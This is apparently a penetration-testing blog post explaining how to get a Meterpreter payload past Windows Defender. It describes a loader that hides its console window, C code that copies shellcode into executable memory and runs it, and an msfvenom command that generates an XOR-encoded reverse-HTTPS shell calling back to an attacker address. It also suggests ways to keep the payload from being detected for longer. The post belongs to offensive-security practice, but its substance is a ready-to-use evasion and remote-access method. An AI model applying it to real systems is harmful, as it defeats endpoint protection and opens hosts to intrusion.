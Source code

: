 Windows Defender Bypassing For Meterpreter
27.01.2020 by HackerHouse

If you have done any kind of hacking against Windows enterprise environments lately, you will have noticed that the detection routines of Microsoft Defender have been improving significantly. Many common anti-malware scan interface (AMSI) bypass tricks are now trivially detected and it can be quite difficult for an inexperienced hacker to get a payload running. I recently had to bypass Windows Defender running on a Windows 10 Enterprise host and this blog post documents the result, a rather simple way of evading Defender. It used to be the case that generating a “meterpreter” payload using “msfvenom” as PowerShell or similar scripted output would permit you to load your code directly onto a Windows host with little effort, or using a PE with strong encoders then injected with another binary using Shellter. However, that has now changed with AMSI being able to detect most garden variety scripted payloads and msfvenom generated binaries mostly being detected by Defender. Windows Defender isn’t entirely fool proof however and it takes little work to bypass the detection routines through use of native code loaded from a DLL. We created a shellcode loading harness Peony[0] that implements the bypass described here and can be used with x86 and x64 meterpreter payloads rather generically to defeat Windows Defender. The project creates a console application Loader.exe which has one main purpose, to load Payload.dll into memory and hide the application’s console Window. This application then quietly sits in the background, invisible to the user and runs in an infinite loop allowing our Payload routines to complete.

HMODULE PayloadDLL;
PayloadDLL = LoadLibrary(L"Payload.dll");

The Payload.dll is responsible for taking a “msfvenom” generated payload, mapping it into read, write and executable memory then transferring execution flow to the position independent shellcode to load meterpreter onto the host. It does this by first creating a thread inside the DllMain function which is called when the DLL is loaded into memory by the Loader. Once inside our thread we map a page of memory the same size as our shellcode. We copy our shellcode into this newly mapped memory and execute it directly as a function. The code is similar to the following.

pShellcode = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(pShellcode, shellcode, sizeof(shellcode)-1);
int (*func)();
func = (int (*)()) pShellcode;
(*func)();

If you generate a Payload.dll containing a trivial to detect Windows shellcode (such as an entirely unencoded or unencrypted payload) then Windows Defender will certainly identify your DLL as malicious and quarantine the file. As such you must still encode your shellcode that will be loaded from the DLL to ensure that it bypasses signature based detection. Metasploit version 5 now supports generating encrypted payloads using msfvenom, supplying the “–encrypt” option allows to create a payload encrypted with RC4, AES256 or encoded output using Base64 or XOR. It transpires that simply XOR encoding your payload routine is sufficient and using the built-in “x86/xor_dynamic” encoder is all that is needed to generate a signature-free DLL. Despite Windows Defender offering significant improved detection lately for common routines and generated binaries, it is still trivial to bypass and offers little protection against meterpreter. You can use our Peony solution which contains both a Loader project and Payload project for compiling a generic meterpreter bypassing payload for use on engagements, however it is likely that this will become detected in the near future and as such a variation of this should be adapted for your own uses. We highly recommend making use of Windows CryptoAPI and using an AES256 encrypted payload to further deter detection of shellcode within a payload.dll, left as an exercise to the reader, however XOR seems wholly sufficient at present. As an example the following msfvenom command can be used to generate a payload and then replace the shellcode variable in Payload.cpp with your own payload.c buf entry. You will need Visual Studio to compile the project files.

msfvenom -p windows/meterpreter/reverse_https LHOST=172.16.10.2 LPORT=443 --encoder x86/xor_dynamic -f c -o payload.c

Windows Defender will often send suspicious samples to the cloud for detection and any generated files will have a limited shelf-life especially if you use meterpreter’s advanced features, however simply adjusting the technique to add better encryption or using timers to force timeouts can help prevent this (see commented code for examples). Ultimately, any payload generated using the sample project here should not expect to last long but can be used as a starting point for your own methods of loading meterpreter onto a Windows Defender protected host. Some of the concepts here are outlined in a blog post by Wei Chen over at the Rapid7 blog[1]. Happy Hacking!
